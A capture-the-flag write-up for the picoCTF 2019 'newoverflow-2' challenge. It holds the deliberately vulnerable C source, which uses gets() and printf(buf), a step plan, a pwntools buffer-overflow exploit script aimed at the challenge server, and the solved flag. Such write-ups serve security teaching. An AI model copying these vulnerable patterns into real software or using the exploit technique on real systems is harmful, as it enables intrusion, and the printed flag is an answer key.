

<details>
	<summary>vuln.c source</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```
</details>

Similiar to the earlier newoverflow we will need to overflow the buffer and return to the win function (named win_fn) but first we must set win1 and win2 to true but calling their respective functions.

Steps:

1. Find the buffer amount to control EIP
2. Return to function win_fn1 with arg 0xDEADBEEF to set win1 to true and set the return function back to main
3. Return to win_fn2 with 3 arg checks according to the source code to set win2 to true then return to main.
4. Finally, return to the win_fn and hopefully pop the flag. 

Due to no pop rdx; ret gadget existing I had to cheat a little and use the flag function that was left in the program

<details>
	<summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
from getpass import getpass
import sys

#load elf binary to var e and grab addys
e = ELF('./vuln')
flag = e.symbols['flag']
main = e.symbols['main']


#connect and load process
ssh = ssh(host='2019shell1.picoctf.com', user='ems3t', password=getpass())
p = ssh.process('vuln', cwd='/problems/newoverflow-2_4_2cbec72146545064c6623c465faba84e')


#build and send payload
payload = ''
payload+= 'A'*72
payload+= p64(main)
payload+= p64(flag)
p.sendlineafter('?\n', payload)
p.interactive()

```
</details>

<details>
	<summary>Flag</summary>

picoCTF{r0p_1t_d0nT_st0p_1t_df73a1da}
</details>